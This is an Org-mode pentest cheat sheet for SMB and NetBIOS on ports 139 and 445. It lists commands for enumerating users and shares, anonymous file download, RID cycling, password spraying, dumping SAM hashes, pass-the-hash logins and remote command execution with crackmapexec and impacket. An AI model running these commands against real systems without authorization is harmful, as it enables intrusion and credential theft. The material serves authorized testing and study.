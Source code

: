 :PROPERTIES:
:ID:       ee7b0e9a-cb6d-434f-bf7d-87bbd00b18b9
:END:
#+title: Pentest - SMB p 139,445
#+filetags: :crackmapexec:smbmap:smb:pentest:
#+hugo_base_dir:../


[[https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb][HackTricks]]


* Port 139 [[id:2e735517-eea9-4a23-a83a-c99740b91756][NetBIOS]]
_NetBIOS_ is ~Network Basic Input Output System~, which is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network.
* Port 445 [[id:c761907f-f7ef-4aa7-adcf-e3d178feec86][SMB - Server Message Block]]
While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’.
** SMB
Server Message Block (SMB) is a client-server protocol that regulates access to files and entire directories and other network resources such as printers, routers, or interfaces released for the network.
* Server Enumeration
Search for hosts:
#+begin_src shell -n
nbtscan -r 192.168.1.1/24
#+end_src
** SMB information
#+begin_src shell -n
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>

# connect to rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
#+end_src

# smbclient
#+begin_src sh
smbclient //10.10.10.10/Public -U 'anonymous' -N
#+end_src

See also impacket: samrdump, rpcdump
** Users, Groups
#+begin_src shell -n
crackmapexec smb 10.10.10.10 --users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups --loggedon-users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 -u usernames.txt -p ‘’ --continue-on-success


ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "

#+end_src
** Anonymous logon
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' --shares
#+end_src
** List files
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus
#+end_src
** Download files
#+begin_src sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=TRUE EXCLUDE_DIR=IPC$
#+end_src
** IPC$ Share
With an anonymous null session you can access the IPC$ share and interact with services exposed via named pipes. The enum4linux utility within Kali Linux is particularly useful; with it, you can obtain the following:
- Operating system information
- Details of the parent domain
- A list of local users and groups
- Details of available SMB shares
- The effective system security policy

RID cycling with ~crackmapexec~
#+begin_src shell -n
crackmapexec smb <ip> -u 'a' -p '' -d <domain> --rid-brute |grep User
#+end_src
then, eg, check for UF_DONT_REQUIRE_PREAUTH and [[id:f6604f23-26b0-4da6-9c3d-f240b929526a][AS-REP Roasting]]. Then attempt ~crackmapexec~ with smb and username password combinations.  Passwords from list (eg rockyou), customized list, usernames as passwords (backwards and forwards, case change, etc).
** SMB Command Execution
#+begin_src shell -n
impacket-smbexec administrator:'<password>'@machine.htb
#+end_src
*** Dump sam hashes
#+begin_src shell -n
crackmapexec smb <IP> -u <username> -p "PASSWORD" --sam
#+end_src
*** wmiexec
#+begin_src shell -n
impacket-wmiexec <user>@<ip> -hashes "<user hash>"
#+end_src

